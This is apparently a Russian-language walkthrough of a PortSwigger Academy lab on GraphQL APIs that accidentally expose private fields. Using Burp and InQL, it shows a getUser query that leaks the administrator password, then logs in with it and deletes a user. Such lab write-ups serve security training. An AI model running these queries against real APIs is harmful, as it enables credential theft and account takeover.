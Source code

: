 Зайдем на уязвимый ресурс и забьем в форму аутентификации любую связку логин-пароля 

Далее перейдем в `Proxy` ->` HTTP history` найдем данный запрос и отправим его в `Repeater`
и увидим, что такого пользователя просто не существует

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/2.%20Accidental%20exposure%20of%20private%20GraphQL%20fields/pics%20for%20walkthrough/1.png)

Далее выясним, что GraphQL работает по адресу `/graphql/v1`

и скопируем путь в расширение `InQL`

и увидим, что мы можем узнать информацию о пользователе по его ID
```
query {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/2.%20Accidental%20exposure%20of%20private%20GraphQL%20fields/pics%20for%20walkthrough/2.png)

Скопируем данный запрос в Repeater с id = 1
```
query {
    getUser(id: 1) {
        id
        password
        username
    }
}
```
и получим ответ 
```
HTTP/2 200 OK
{
  "data": {
    "getUser": {
      "id": 1,
      "password": "oitayswtnldcl9xv7e4z",
      "username": "administrator"
    }
  }
}
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/2.%20Accidental%20exposure%20of%20private%20GraphQL%20fields/pics%20for%20walkthrough/3.png)

Зайдем по кредам `administrator:oitayswtnldcl9xv7e4z`

Перейдем в `admin panel` И удалим `carlos` как этого и требует задание и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/2.%20Accidental%20exposure%20of%20private%20GraphQL%20fields/pics%20for%20walkthrough/4.png)
